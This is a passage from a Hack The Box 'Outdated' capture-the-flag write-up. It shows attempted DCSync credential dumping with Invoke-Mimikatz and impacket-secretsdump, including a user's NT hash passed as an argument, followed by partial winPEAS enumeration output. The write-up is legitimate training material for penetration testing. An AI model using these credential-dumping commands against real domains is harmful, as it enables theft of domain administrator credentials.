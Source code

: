 It seems that I can open a shell using `evil-winrm`.

# Shell as `NT authority\SYSTEM`

Let's review BloodHound again to find path from `sflowers` to `Domain Admins`.

![](attachments/outdated_3.png)

I think we have to exploit `DCSync` permission this time.
Let's upload `Invoke-Mimikatz.ps1` and try do use `DCSync` attack.

```bash
*Evil-WinRM* PS C:\Users\sflowers\Documents> Invoke-Mimikatz -Command "lsadump::dcsync /domain:outdated.htb /user:Administrator"
Access denied 


┌──(kali㉿kali)-[~/htb]
└─$ impacket-secretsdump -hashes :1FCDB1F6015DCB318CC77BB2BDA14DB5 outdated.htb/sflowers@10.10.11.175
Impacket v0.12.0.dev1 - Copyright 2023 Fortra

[-] RemoteOperations failed: DCERPC Runtime Error: code: 0x5 - rpc_s_access_denied 
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
[-] DRSR SessionError: code: 0x20f7 - ERROR_DS_DRA_BAD_DN - The distinguished name specified for this replication operation is invalid.
[*] Something went wrong with the DRSUAPI approach. Try again with -use-vss parameter
[*] Cleaning up...
```

Unfortunately, it's not successful. I tried both Windows & Linux abusing methods, but none of these worked..

Since it's not working, let's investigate with `winPEAS`

```bash
*Evil-WinRM* PS C:\Users\sflowers\Documents> .\winPEASx64.exe

ÉÍÍÍÍÍÍÍÍÍÍ¹ Installed Applications --Via Program Files/Uninstall registry--
È Check if you can modify installed software https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation#software                  
    C:\Program Files\Common Files
    C:\Program Files\desktop.ini
    C:\Program Files\Hyper-V
    C:\Program Files\internet explorer
    C:\Program Files\Microsoft SQL Server
    C:\Program Files\MSBuild
    C:\Program Files\PackageManagement
    C:\Program Files\Reference Assemblies
    C:\Program Files\Uninstall Information
    C:\Program Files\Update Services
```